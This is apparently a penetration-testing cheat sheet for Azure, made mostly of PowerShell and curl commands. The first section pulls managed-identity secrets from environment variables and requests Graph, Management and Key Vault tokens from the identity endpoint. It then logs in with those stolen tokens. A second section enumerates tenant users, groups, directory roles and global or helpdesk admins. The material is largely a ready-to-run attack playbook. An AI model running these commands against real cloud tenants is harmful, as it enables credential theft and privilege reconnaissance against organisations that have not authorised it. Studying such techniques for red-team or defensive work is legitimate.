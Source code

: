 ## Abusing Managed Identities
```powershell
# Extract the MSI_SECRET and MSI_ENDPOINT values from env. variables
env | grep MSI

# Query the Identitiy endpoint for GraphAPI, AzureVault and Management access tokens
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER

$mgmtToken = 'eyJ0eXAiOiJKV1QiLX9rsVtX99Rk...[SNIP]...BQXTOxQ8GYK8QvIV7ZuwGjlyc9iL7Q'

$graph = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJ...[SNIP]...H8PmkZf3tTKd57dg'

$keyVault = 'eyJ0eXAiOiJdiUm9LSTNR...[SNIP]...S-KsIKUadEC784ShMsWcirZCw'

Disconnect-AzAccount

Connect-AzAccount -KeyVaultAccessToken $keyVault -AccessToken $mgmtToken -GraphAccessToken $graph -AccountId e1703509-9d01-4f6d-b883-82783ab59446
```

## Enumerate Resources
## Manual
- Enumerate sharepoint by using the link `https://<tenant>.sharepoint.com/_forms/default.aspx`
- Enumerate OneDrive by using the link: 
`https://<tenant>-my.sharepoint.com`
### Powershell AZ Module
```powershell
$password = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential('storageviewer@example.onmicrosoft.com', $Password) Connect-AzAccount -Credential $creds

Connect-AzAccount -Credential $creds

# Enumerate resources our user has access to
Get-AzResource

# Confirm account is service principal
Get-AzContext

Get-AzADuser
Get-AzADGroup
Get-AzADGroupMember -ObjectId 01086658-6706-44e8-a373-96ab550c72f7

# Enumerate a specific user
Get-AzADUser -UserPrincipalName HelpDeskAdmin@example.onmicrosoft.com

# Enum directory roles
Get-AzureADDirectoryRole

# Identify users with global admin
Get-AzureADDirectoryRole -ObjectId b5da7126-cb27-48e6-a316-e319ba453b65 | Get-AzureADDirectoryRoleMember

# Identify users with the helpdeskadmin role
Get-AzureADDirectoryRole -ObjectId 65b73b34-3665-424f-8c89-d17857e1cd9f | Get-AzureADDirectoryRoleMember
```